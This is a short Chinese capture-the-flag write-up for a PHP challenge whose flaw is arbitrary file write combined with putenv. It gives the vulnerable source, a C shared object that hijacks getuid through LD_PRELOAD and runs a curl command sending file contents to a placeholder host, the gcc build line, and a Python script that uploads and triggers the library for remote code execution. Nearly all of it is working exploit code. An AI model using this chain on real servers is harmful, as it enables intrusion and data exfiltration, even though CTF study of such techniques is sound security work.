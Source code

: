 考点:**劫持getuid**,加载恶意so文件，实现RCE

```php
<?php
error_reporting(0);

$action = $_GET['a'];
switch ($action) {
    case 'phpinfo':
        phpinfo();
        break;
    
    case 'write':
        file_put_contents($_POST['file'],$_POST['content']);
        break;

    case 'run':
        putenv($_GET['env']);
        system("whoami");
        break;

    default:
        highlight_file(__FILE__);
        break;
}
```

生成so文件，shell.c

这是劫持getuid的so文件

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
void payload(){
        system("curl http://url:port?s=`cat /*`");
}
int getuid()
{
        if(getenv("LD_PRELOAD")==NULL){ return 0;}
        unsetenv("LD_PRELOAD");
        payload();
}


```

gcc -c -fPIC shell.c -o shell&&gcc --share shell -o shell.so

生成完后，直接上本子

```python
import requests
url="http://53380121-bba5-4f41-8143-39a5fdff85b0.challenge.ctf.show/"
data={'file':'/tmp/shell.so','content':open('shell.so','rb').read()}
requests.post(url+'?a=write',data=data)
requests.get(url+'?a=run&env=LD_PRELOAD=/tmp/shell.so')
```
